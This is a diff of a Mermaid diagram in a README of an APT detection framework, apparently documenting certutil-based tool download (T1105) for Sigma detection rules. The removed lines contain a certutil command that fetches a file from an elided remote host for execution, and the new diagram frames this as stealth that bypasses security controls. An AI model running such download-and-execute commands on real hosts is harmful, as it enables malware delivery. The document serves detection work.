

Before and after one commit to khaireddinechebbi/APTs-Detection-Framework: the second of 9 diagrams in SigmaRules/Command and Control/T1105/README.md, drawn with Mermaid. The commit also changed other lines of this file, not shown here.

````diff
--- a/SigmaRules/Command and Control/T1105/README.md
+++ b/SigmaRules/Command and Control/T1105/README.md
@@ -62,14 +64,13 @@
 ```mermaid
 flowchart TD
-  Attacker[Adversary HTTP/S Server]
-  Victim[Windows Host]
-  HTTP[https://.../tool.bin]
-  Certutil[certutil.exe]
-  File[tool.bin]
-  Execute[cmd / powershell - run tool.bin]
-
-  Attacker -->|host file| HTTP
-  Victim -->|certutil -urlcache -split -f https://... tool.bin| Certutil
-  Certutil -->|writes to disk| File
-  File -->|execute| Execute
+    A[Adversary Server] --> B[certutil -urlcache command]
+    B --> C[File Download via HTTPS]
+    C --> D[Local File Storage]
+    D --> E[System Compromise - Malware Execution]
+    
+    B --> F[Stealth Technique - Uses legitimate Windows utility]
+    F --> G[Bypasses Security Controls - Appears as normal admin activity]
+    
+    style A fill:#ff9999
+    style E fill:#ff9999
 ```
````
